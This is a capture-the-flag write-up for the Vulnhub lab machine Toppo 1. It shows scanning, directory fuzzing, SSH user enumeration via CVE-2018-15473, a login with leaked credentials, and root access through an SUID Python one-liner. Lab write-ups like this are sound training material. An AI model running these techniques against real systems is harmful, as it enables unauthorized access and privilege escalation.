

# Information

- Name: Toppo 1
- Date release: 12 Jul 2018
- Author: Hadi Mene
- Series: Toppo
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/toppo-1,245/
- Difficulty: Very Easy

# Write Up

## Enumeration
### Host Discovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.28_.
```Shell
# arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:63:0d:d4 10.0.2.3
[*] 08:00:27:93:ef:2a 10.0.2.28
```
### Port Scanning 
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and _nmap_. Tool reported 4 open ports.
```Shell
# portScanner.py -i 10.0.2.28
[b] Scanning Ports: 65535
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 111 (sunrpc) open
[*] Port 56132 (unknown) open
```

Looks like a web server and ssh. Let's enumerate versions via nmap.
```Console
# nmap -sV -p22,80,111,56132 10.0.2.28
[sudo] password for aalmeidar: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 12:36 CEST
Nmap scan report for 10.0.2.28 (10.0.2.28)
Host is up (0.00031s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
56132/tcp open   status  1 (RPC #100024)
MAC Address: 08:00:27:93:EF:2A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.43 seconds
```
### Web
Index looks not relevant so let's apply fuzzing with _gobuster_ to discover hidden directories and files.


```Console
# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.28/ -t 100 -x .txt,.php,.html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.28/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2022/09/09 12:39:37 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 305] [--> http://10.0.2.28/mail/]
/admin                (Status: 301) [Size: 306] [--> http://10.0.2.28/admin/]
/post.html            (Status: 200) [Size: 8262]                             
/contact.html         (Status: 200) [Size: 7016]                             
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.28/css/]  
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.28/img/]  
/manual               (Status: 301) [Size: 307] [--> http://10.0.2.28/manual/]
/index.html           (Status: 200) [Size: 6437]                              
/about.html           (Status: 200) [Size: 5030]                              
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.28/js/]    
/vendor               (Status: 301) [Size: 307] [--> http://10.0.2.28/vendor/]
/LICENSE              (Status: 200) [Size: 1093]                              
/server-status        (Status: 403) [Size: 297]                               
                                                                              
===============================================================
2022/09/09 12:41:19 Finished
===============================================================
```
## Exploitation

In _/admin_ there is a message with a password, but no user.


OpenSSH is vulnerable to [User Enumeration](https://www.exploit-db.com/exploits/45233). Let's try get a user. I'm going to use this [script](https://github.com/epi052/cve-2018-15473)

```Console
python open_ssh_user_enum.py 10.0.2.28 -w /usr/share/seclists/Usernames/Names/names.txt
[+] OpenSSH version 6.7 found
[+] bin found!
[+] irc found!
[+] mail found!
[+] man found!
[+] sys found!
[+] ted found!
[+] root found!

```

Login with ted:12345ted123 is successful.

## Privilege Escalation
_Python2.7_ is assigned with suid perm. Let's use it to generate a bash as root.
```Console
ted@Toppo:~$ find / -perm -4000 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
ted@Toppo:~$ python -c 'import os; os.system("/bin/bash -p")'
bash-4.3# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
bash-4.3# whoami
root
bash-4.3# cat /root/flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              


Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```
